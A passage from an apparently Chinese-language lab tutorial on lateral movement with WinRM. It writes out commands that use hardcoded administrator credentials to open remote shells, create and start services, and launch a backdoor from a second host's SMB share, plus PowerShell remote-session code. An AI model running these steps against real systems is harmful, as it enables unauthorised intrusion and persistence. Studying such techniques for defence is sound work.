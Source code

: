 ![winrs-pc-whoami](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/winrs-pc-whoami.png)

执行以下命令，利用winrs获取一个交互式shell

```
winrs -r:http://192.168.30.10:5985 -u:Administrator -p:uu2fu3o@admin "cmd"
```

![winrs-pc-get-dc-shell](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/winrs-pc-get-dc-shell.png)

2.winrm

```
shell winrm invoke Create wmicimv2/win32_process @{CommandLine="calc.exe"} -r:192.168.30.10 -u:Administrator -p:uu2fu3o@admin
```

在目标机器上启动一个计算器进程

![winrm-calc](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/winrm-calc.png)

也可以通过生成服务的方式

```
#生成名为test的服务
winrm invoke Create wmicimv2/Win32_Service @{Name="test";DisplayName="test";PathName="cmd.exe /k c:\windows\system32\calc.exe"} -r:http://192.168.30.10:5985 -u:Administrator -p:uu2fu3o@admin
```

![test-service](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/test-service.png)

执行以下命令，远程调用该服务

```
winrm invoke StartService wmicimv2/Win32_Service?Name=test -r:http://192.168.30.10:5985 -u:Administrator -p:uu2fu3o@admin
```

![open-tes-service](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/open-tes-service.png)

执行SMB匿名服务器中的后门文件

```
shell winrm invoke Create wmicimv2/Win32_Service @{Name="test2";DisplayName="test2";PathName="cmd.exe /k \\192.168.30.20\smb\Winrm.exe"} -r:http://192.168.30.10:5985 -u:Administrator -p:uu2fu3o@admin
```

![winrm-dc-smb](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/winrm-dc-smb.png)

### 获取交互式会话

+ 利用powershell

powershell基于WinRM规范，Enter-PSSession的Powershell Cmdlet可以启动与远程主机的会话

```
#指定远程系统名
$User = "hack\Administrator"
#指定用户密码
$Password = ConvertTo-SecureString -String "uu2fu3o@admin" -AsPlainText -Force
#整合用户名和密码
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password
#根据提供的凭据创建会话
New-PSSession -Name WinRM1 -ComputerName 192.168.30.10 -Credential $Cred -Port 5985
```
